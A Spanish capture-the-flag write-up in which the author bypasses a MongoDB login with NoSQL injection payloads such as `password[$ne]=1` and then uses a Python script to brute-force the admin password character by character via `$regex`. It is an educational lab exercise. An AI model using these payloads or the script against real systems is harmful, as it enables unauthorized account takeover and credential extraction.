 # secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.

![image.png](image/image_01.png)

Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`

![image.png](image/image_02.png)

Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`

![Screenshot 2024-11-25 at 22.57.41.png](image/image_03.png)

Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

![me](https://github.com/darkxvortex/TH_practica_2/blob/main/secret_meeting/solve/image/vid_01.gif)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.

Al final averiguo que faltaba el punto en la wordlist, por lo que tras ejecutar el script de nuevo con el punto incluido, obtenemos lo siguiente:




Probing with: ^URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s.3n_s3r10.N0_l0_h4ga5_A_m4n0.3n5.*
Status code: 401
